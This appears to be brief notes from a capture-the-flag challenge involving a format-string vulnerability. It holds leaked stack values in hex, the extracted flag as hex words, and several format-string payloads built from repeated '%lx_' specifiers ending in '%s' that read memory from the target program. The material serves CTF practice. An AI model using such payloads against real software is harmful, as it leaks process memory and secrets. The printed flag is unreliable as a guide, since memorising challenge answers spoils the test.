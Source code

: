 My output:
92033b0_804b000_80489c3_f7f68d80_ffffffff_1_9201160_f7f76110_f7f68dc7_0_9202180_3_9203390_92033b0_6f636970_7b465443_306c5f49_345f7435_6d5f6c6c_306d5f79_5f79336e_63343261_36613431_ffe1007d_f7fa3af8_f7f76440_896e8900_1_0_f7e05ce9_f7f770c0_f7f685c0_f7f68000_ffe1ec08_f7df668d_f7f685c0_8048eca_ffe1ec14_0_f7f8af09_804b000_f7f68000_f7f68e20_ffe1ec48_f7f90d50_f7f69890_896e8900_f7f68000_804b000_ffe1ec48_8048c86_9201160_ffe1ec34_ffe1ec48_8048be9_f7f683fc_0_ffe1ecfc_ffe1ecf4_1_

=====================================

So the flag is:
6f636970_7b465443_306c5f49_345f7435_6d5f6c6c_306d5f79_5f79336e_63343261_36613431

%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%s

%lx_%lx_%lx_%lx_%lx_%lx_%s

5 %lx, each row 2 lx

%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%lx_%s
